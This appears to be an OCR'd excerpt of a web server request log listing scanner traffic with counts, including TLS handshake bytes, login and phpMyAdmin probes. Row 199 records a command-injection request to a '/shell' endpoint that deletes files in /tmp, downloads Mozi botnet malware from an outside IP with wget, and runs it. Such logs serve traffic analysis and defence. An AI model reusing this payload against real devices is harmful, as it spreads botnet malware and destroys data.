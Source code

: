 | 198 |                     1 | \x16\x03\x01\x05\xA8\x01\x00\x05\xA4\x03\x03\x02\xF2\xDE'\xB4-\xF6\xEC\x88o\xF8\xF8H\xFCL\xDF\xB5\x1A/E\xAD!p\xFA@\x8A\x91r\x8B\xBCC\x03 \x8E\xCF\x98X\xC1\xC4>\x9E\xF8#2A\x84s\xD3\xEC\x89\xFFn>|\x8C\x8E}t\x22(Z\xFF                                                                                                                                                                                                                                                                                                                                                              |
| 199 |                     1 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://118.251.20.226:60186/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| 200 |                     1 | \x16\x03\x01\x02\x00\x01\x00\x01\xFC\x03\x03(3.\xB4\x98\xE8\x01\x8C\xB4;\x1D\x91c\x15\x86\x12\xFDiS\xB6\x89\xEE\xB9KRb\xD3$\xBFt\x1E\xE3 a\xB6\x1E0\x92\xA4\xB4\x99\xC6\xAC\xAD|jK\x5C\x94\x93\xE4\xC4\x0F\xBE\xCDN\xEB\xBB\xA8E\xE1D\xE4g\x99\x00>\x13\x02\x13\x03\x13\x01\xC0,\xC00\x00\x9F\xCC\xA9\xCC\xA8\xCC\xAA\xC0+\xC0/\x00\x9E\xC0$\xC0(\x00k\xC0#\xC0'\x00g\xC0                                                                                                                                                                                                           |
| 201 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03i\xE1Q\xEAE7\xA3\xF5\xA86\xCB\xCCW\xAE[\xDC#\xD0<%}\xDB~t_\xAC\x89\xD1q\xCBy\xDA \x88Ksj^\xB6\xFD\x1B\xDBX\xA46\x85\x95\x90\xAEc\x8AbPa\xD6@s\xEF1\xD8\xA2\x13\xF4*v\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                                                                                                                                                                                       |
| 202 |                     1 | GET /login/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| 203 |                     1 | GET /login HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 204 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03$\xD6\x0Ek#\x08\x80\x926\xA0gD\xB1\x06\xDC\xE1\xD9\x8E\x0E\xC3k\xAD\x12\xB6\xB3\xD5\xDA\xA8j\xD9\xFC\xBF \xF0\xCBn\x80.\xB7\xE7o\xF63^2\x10x\x0F\x14\xD1MV\x83Eg9\x89\xFCF\xFD\x03<\x00\x1E\xF7\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                                                                                                                                                                                            |
| 205 |                     1 | \x16\x03\x01\x00\xCA\x01\x00\x00\xC6\x03\x03:{D|\x0F@\xF0H\xFD\x8B\xFD\xAE\x8A\xAD\x16\x8C\x12\xE5\xB6\xC8\xFC\xFE\xC3\x15\xA3*D\x09Fk\xCA\xA2\x00\x00h\xCC\x14\xCC\x13\xC0/\xC0+\xC00\xC0,\xC0\x11\xC0\x07\xC0'\xC0#\xC0\x13\xC0\x09\xC0(\xC0$\xC0\x14\xC0                                                                                                                                                                                                                                                                                                                         |
| 206 |                     1 | GET /index.shtml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 207 |                     1 | GET /sql/phpMyAdmin2/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
